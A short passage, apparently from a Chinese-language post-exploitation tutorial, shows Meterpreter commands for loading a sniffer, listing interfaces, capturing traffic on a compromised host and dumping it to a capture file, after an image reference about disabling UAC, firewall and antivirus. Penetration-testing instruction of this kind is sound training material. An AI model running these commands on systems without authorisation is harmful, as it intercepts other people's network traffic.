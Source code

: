   ![关闭防火墙及杀毒软件_6](./后渗透/关闭UAC、防火墙及杀毒软件_7.png)

### 数据包捕获

- **抓包**

1. 加载sniffer插件

2. 查看网卡信息

3. 开启监听

4. 导出数据包

   ```
   # meterpreter > load sniffer
   // 需要管理员权限
   # meterpreter > sniffer_interfaces
   # meterpreter > sniffer_strat 2
   # meterpreter > sniffer_dump 2 2.cap
   ```

![数据包捕获_1](./后渗透/数据包捕获_1.png)
